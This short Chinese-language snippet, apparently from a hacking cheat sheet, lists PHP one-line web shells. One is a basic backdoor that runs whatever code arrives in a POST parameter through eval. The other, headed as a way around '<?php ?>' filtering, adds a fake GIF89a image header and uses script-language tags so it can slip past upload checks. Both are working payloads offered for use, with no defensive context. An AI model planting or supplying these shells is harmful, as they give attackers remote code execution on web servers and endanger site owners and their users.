 ### 基础php一句话木马:

```php
<?php @eval($_POST['pass']);?>
```

### 规避`<?php ?>`:

```php
GIF89a? <script language="php">eval($_REQUEST[123])</script>
```